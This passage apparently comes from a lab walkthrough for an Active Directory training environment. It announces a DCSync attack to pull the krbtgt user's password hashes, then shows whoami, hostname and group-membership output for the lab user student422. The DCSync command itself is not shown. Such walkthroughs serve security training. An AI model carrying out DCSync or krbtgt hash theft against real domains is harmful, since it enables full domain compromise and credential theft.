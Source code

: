 ```
```
🚩

2. **If yes, execute the DCSync attack to pull hashes of the `krbtgt` user**

Sweet! Now, below command (or any similar tool) can be used as `student422` to get the hashes of `krbtgt` user or any other user.

![Run as administrator](./assets/screenshots/learning_objectives_run_as_administrator.png)

![Victim: dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
dcorp\student422
```

`hostname`:
```
dcorp-std422
```

`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators📌                   Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner✅
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
```